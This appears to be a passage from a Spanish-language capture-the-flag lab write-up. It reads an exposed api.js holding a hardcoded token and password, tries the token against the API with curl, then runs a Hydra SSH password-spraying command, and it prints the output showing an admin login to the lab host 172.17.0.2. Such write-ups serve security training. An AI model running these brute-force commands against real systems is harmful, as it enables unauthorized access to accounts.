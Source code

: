 ## Explotacion de Vulnerabilidades
### Vector de Ataque
Viendo que tenemos que apuntar un token valido como vemos en el codigo **js** donde si apuntamos con el token valido nos devuelte una password
Para ver correctamente la api tenemos que apuntar desde curl:
```bash
curl -s -X GET http://172.17.0.2/api.js
```

```js
const express = require('express');
const app = express();
const PORT = 3000;

const tokenValido = "EKL56L4K57657JÑ456J74K5Ñ6754";

app.use(express.json());

app.post('/api', (req, res) => {
  const { token } = req.body;

  if (token === tokenValido) {
    return res.send("✅ Acceso concedido. Contraseña chocolate123");
  } else {
    return res.status(401).send("❌ Token inválido.");
  }
});

app.listen(PORT, () => {
  console.log(`🚀 API activa en http://localhost:${PORT}`);
});
```

### Ejecucion del Ataque
Aunque logramos obtener el **token** valido, no retorna lo esperado
```bash
# Comandos para explotación
curl -s -X POST http://172.17.0.2:3000/api -H 'Content-Type: application/json' -d '{"Token": "EKL56L4K57657JÑ456J74K5Ñ6754"}'
❌ Token inválido.
```

### Intrusion
Pero como ya tenemos una posible password, por lo que realizamos un ataque de fuerza bruta
```bash
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -p chocolate123 -f -t 4 ssh://172.17.0.2
```

Logrando obtener una session valida por **ssh**
```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: admin   password: chocolate123
```
